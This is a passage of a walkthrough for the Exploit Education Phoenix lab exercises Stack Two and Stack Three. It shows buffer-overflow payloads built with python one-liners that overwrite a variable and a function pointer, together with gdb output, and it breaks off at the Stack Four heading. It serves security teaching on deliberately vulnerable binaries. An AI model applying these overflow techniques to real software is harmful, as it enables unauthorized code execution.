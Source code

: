 ### Exercise

Description: https://exploit.education/phoenix/stack-two/

### Solution

The solution is similar to the previous exercise, but we have to control the value we assign to the variable `changeme`. (using an environment variable)

```
$ ExploitEducation=HELLO ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a

$ ExploitEducation=`python -c 'print ("A"*64)+"\x0a\x09\x0a\x0d"'` ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

## Stack Three

### Exercise

Description: https://exploit.education/phoenix/stack-three/

### Solution

The solution is similar to the previous exercise, but we have to control the address the function pointer `fp` will call.

We will assign it to the `complete_level` function (located at `0x0040069d`)

```
$ gdb ./stack-three
(gdb) info functions 
…
0x000000000040069d  complete_level
0x00000000004006b5  main
…

$ python -c 'print ("A"*64)+"\x9d\x06\x40" ' | ./stack-three 
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```

## Stack Four

### Exercise

Description: https://exploit.education/phoenix/stack-four/

### Solution
